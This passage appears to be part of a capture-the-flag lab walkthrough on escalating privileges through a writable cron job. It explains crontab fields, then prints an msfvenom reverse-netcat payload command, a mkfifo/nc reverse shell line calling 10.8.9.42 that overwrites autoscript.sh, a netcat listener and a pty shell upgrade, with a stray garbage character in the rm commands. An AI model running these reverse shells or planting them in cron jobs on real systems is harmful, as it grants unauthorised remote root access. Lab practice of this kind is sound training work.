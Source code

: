dom = Day of the month

mon = Month

dow = Day of the week

user = What user the command will run as

command = What command should be run

For Example,

|\# | m | h | dom | mon | dow | user | command |
|---|---|---|---|---|---|---|---|
|17 | \* | 1 | \*| \*| \* | root | cd / && run-parts --report /etc/cron.hourly |

### Task 8 - Flag4

Create a payload using: "msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R"*

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```

> Make sure to use the attack system's IP in place of LOCALIP in the above payload

### Task 8 - Flag5

What directory is the "autoscript.sh" under?

```bash
cat /etc/crontab
```

### Task 8 - Flag6

Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

In the terminal on the **vulnerable** host, type in the following:

```bash
echo "mkfifo /tmp/<tmp filename>; nc <localip>:<port> 0</tmp/<tmp filename> | /bin/sh >/tmp/<tmp filename> 2>&1; rm │/tmp/<tmp filename>
```

> Make sure to respectively use whatever your payload output was from **Flag4**

### Task 8 - Flag7

Setup your netcat listener on the attack system by doing the following

```bash
nc -lvp <port>
```

To test that the autoscript.sh on the vulnerable system will provide a shell, you can execute the command in your terminal like below:

```bash
mkfifo /tmp/akolks; nc 10.8.9.42 8080 0</tmp/akolks | /bin/sh >/tmp/akolks 2>&1; rm │/tmp/akolks
```

> Again, make sure to respectively use the correct payload info on your system

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Will make the shell appear similar ot most terminal prompts
